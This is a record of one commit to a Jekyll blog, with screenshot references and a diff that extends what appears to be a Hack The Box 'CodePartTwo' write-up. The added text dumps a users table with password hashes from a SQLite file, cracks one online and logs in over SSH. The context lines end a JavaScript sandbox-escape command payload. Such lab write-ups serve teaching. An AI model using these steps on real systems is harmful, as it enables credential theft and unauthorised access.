

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from codeparttwo-htb.md, in a window 1280 px wide and 900 px high, scrolled down 3852 px. Shown: the top 896 px of the window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 4257 px from its top, so only the background shows below that; grey boxes are pictures that could not be loaded.

Commit message:
Update codeparttwo-htb.md

```diff
--- a/codeparttwo-htb.md
+++ b/codeparttwo-htb.md
@@ -60,3 +60,16 @@ let result = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communi
 console.log(result)
 result</code></pre>
 <br>
+Now obviously we have the shell as <i>app</i>. We need to escalate the privilages further for the normal user to get the user flag.
+<img width="467" height="59" alt="image" src="https://github.com/user-attachments/assets/537d4d01-8147-4fce-ac4d-e089fc5130c4" />
+If we check the <bold>~/app/instance</bold> directory, we can see there is a <i>users.db</i> file, when we open the file, we can see there is a <i>user</i>, now we select all the users from there:
+<pre><code class="language-none">SELECT * FROM user;
+1|marco|649c9d65a206a75f5abe509fe128bce5
+2|app|a97588c0e2fa3a024876339e27aeb42e</code></pre>
+Now when we crack the hash for <i>marco</i> user on crackstation we can ssh into the machine as <i>marco</i>. We get the user flag.
+<pre><code class="language-none">marco@codeparttwo:~$ ls
+backups  npbackup.conf  user.txt
+marco@codeparttwo:~$ cat user.txt
+&lt;REDACTED>
+</code></pre>
+<br>
```
